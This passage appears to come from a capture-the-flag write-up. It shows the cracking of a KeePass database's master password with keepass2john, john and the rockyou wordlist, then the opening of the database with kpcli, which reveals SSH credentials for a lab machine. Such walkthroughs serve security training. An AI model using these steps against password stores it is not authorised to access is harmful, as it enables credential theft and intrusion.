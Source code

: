 ```
$ file decoded           
decoded: Keepass password database 2.x KDBX
```

Afterwards, we can crack this database password using `keepass2john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kp_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mahalkita        (decoded)     
1g 0:00:00:00 DONE (2023-06-21 11:22) 1.470g/s 305.8p/s 305.8c/s 305.8C/s alyssa..jeremy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then we can access the database:

```
$ kpcli -kdb decoded            
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> 

kpcli:/Database/Windows> show 0 -f 

Title: SSH
Uname: 3v4Si0N
 Pass: Gu4nCh3C4NaRi0N!23
  URL: 
Notes: 
```

Then, we can finally access the user here:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>
